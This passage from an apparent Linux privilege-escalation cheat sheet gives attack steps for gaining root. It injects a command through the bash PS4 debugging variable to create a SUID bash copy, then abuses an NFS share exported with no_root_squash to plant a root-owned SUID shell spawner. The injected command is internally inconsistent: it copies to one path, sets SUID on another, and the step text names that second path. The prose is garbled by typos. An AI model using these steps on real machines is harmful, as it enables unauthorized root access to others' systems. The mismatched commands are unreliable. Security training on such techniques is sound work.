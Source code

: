 When in debugging mode, Bash uses the environment variable **PS4** to display an extra prompt for debugging statements.

*   **Run the `/usr/local/bin/rotexec` executable with bash debugging enabled and the PS4 variable set to an embedded command which creates an SUID version of /bin/bash:**

    ```
    env -i SHELLOPTS=xtrace PS4='$(cp /bin/bash /tmp/rootshell; chmod +xs /tmp/rootbash)' /usr/local/bin/rotexec
    ```
*   **Run the /tmp/rootbash executable with -p to spawn a shell running with root privileges:**

    ```
    /tmp/rootshell -p
    ```

## **NFS NO\_Root\_squashing Exploitation**

> NFS is a network file share protocol

*   **What is root\_squash**

    By Default NFS has a method of writable files in shares on local machine

    a files with a permession as a remote user have on remote machine

    IF remote user is root in its machine NFS make technique called

    squashing which assume this remote user as nobody user in nobody group

    this technique can be disablled whith no\_root\_squash

    so you can write a \[ /bin/sh spawner ] binary in this directory with remote user root which will be owned by root in local machine then make it a SUID bin to allow any body on local machine execute it as permessions of its owner (riit)
*   **Enumerate Shared Files**

    showmount -e IP

    ![](https://0xbugatti.io/_astro/09Untitled4.Dktd9R3R_Z1Dykyb.webp)
*   **Mount it On Your machine**

    mount -o rw IP:/shown\_Mounted\_files /anypath

    ![](https://0xbugatti.io/_astro/09Untitled5.BCR3VxaF_Z1V5kny.webp)
*   **Make a shell spawner owned by root with remote user**

    ![](https://0xbugatti.io/_astro/09Untitled6.DZTJPG_O_274TKk.webp)
*   **allow any local user to execute this spwaner as a owner (root)**

    ![](https://0xbugatti.io/_astro/09Untitled7.D11KnNKE_Z2gn4zT.webp)
*   **Go to the shared File in Vectim host and run spawner**

    ![](https://0xbugatti.io/_astro/e11687ef82f30f7906201f031c94303c.DcwV-W1I_Zqypq7.webp)

## **Session Hijacking \[Screen-Tmux]**
